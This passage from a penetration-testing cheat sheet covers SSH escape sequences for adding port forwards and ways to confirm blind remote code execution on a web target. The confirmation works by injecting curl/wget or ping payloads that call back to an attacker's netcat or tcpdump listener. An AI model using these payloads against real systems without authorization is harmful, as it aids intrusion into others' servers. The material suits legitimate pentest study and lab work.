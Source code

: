 #### SSH control sequence
The SSH control sequence allows you to 
change SSH options after eastablished the connection. 
It is useful if you want to add new port forwarding options in current SSH session.
See this [blog](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) for details
```bash
# execute in a terminal
# make sure you pressed enter for a new line
# then press ~C, it won't be shown in the terminal but you should see
ssh >
# Then type in your options, e.g. adding a new SOCKS proxy
ssh > -D 1337
# Then press enter again to add the option
```

## 7. Misc
Things that are important concept or PoC techniques but don't related the above categories/are generic 

### RCE PoC
sometimes the website is vulnerable to RCE
but the execution output does not show up on the web page.
We need a way to proof that the RCE is successful to continue on the exploit.
There are multiple ways to do so:

1. If you don't have access to machine (most of the scenario):

    You can PoC with two ways
    
    The first way is setup a nc listener at port 80
    then put your payload as:
    ```bash
    curl/wget YOUR_IP
    ```
    A valid respond should come in:
    ```bash
    # nc -lvnp 80
    listening on [any] 80 ...
    connect to [YOUR_IP] from (UNKNOWN) [TARGET_IP] 50558
    GET / HTTP/1.1
    Host: YOUR_IP
    User-Agent: curl/7.88.1
    Accept: */*
    ```

    Second way is setup a tcpdump listen on whichever 
    network interface you are connected to your target,
    capture only icmp packets
    and put your payload as
    ```
    ping YOUR_IP -c 1
    ```
    A valid respond should look like:
    ```
    # tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
    08:55:30.741476 IP TARGET_IP > YOUR_IP: ICMP echo request, id 1, seq 1, length 64
    08:55:30.741652 IP YOUR_IP > TARGET_IP: ICMP echo reply, id 1, seq 1, length 64
    ```
